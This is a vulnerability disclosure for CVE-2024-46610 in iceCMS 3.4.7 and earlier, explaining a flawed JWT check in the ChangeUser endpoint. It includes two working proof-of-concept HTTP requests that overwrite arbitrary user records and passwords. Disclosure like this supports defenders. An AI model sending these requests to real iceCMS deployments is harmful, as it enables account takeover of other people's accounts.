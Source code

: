 
**[CVE-ID]**

CVE-2024-46610

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**

Unauthorized modification of any user information, including passwords.

The vulnerability is in the ChangeUser function in UserController.java. The route of the function is @PostMapping("/ChangeUser/{jwt}"). This interface does not perform authentication processing. It only detects the jwt, and its jwt detection logic is problematic. As a result, attackers can directly request this interface to modify the information of any user, including passwords.

![pic1](/icecms/PIC/CVE-2024-46610-1.png)

The code logic is as follows:
There is a problem with the jwt detection logic in the code. If the jwt is invalid or illegal, an error should be reported directly or a return should be made directly instead of just setting a message.

![pic2](/icecms/PIC/CVE-2024-46610-2.png)


## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, the information of any user can be directly modified.
```
POST /User/ChangeUser/s HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 621

{"userId":65,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"alan",
"role":"会员",
"username":"test","password":"$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```
![pic3](/icecms/PIC/CVE-2024-46610-3.png)



 Directly modify users. And the password can be directly set as plaintext, and the plaintext will be stored in the database.
For example, sending a packet:
```
POST /User/ChangeUser/a HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 533

{"userId":67,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"test2",
"role":"会员",
"username":"test2","password":"123456","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```

![pic4](/icecms/PIC/CVE-2024-46610-4.png)

in the Database：

![pic5](/icecms/PIC/CVE-2024-46610-5.png)

There is also an interface with the same problem. The interface is as follows: /Websuser/ChangeUser/s.
**in WebUserController.java,ChangeUser Function.**

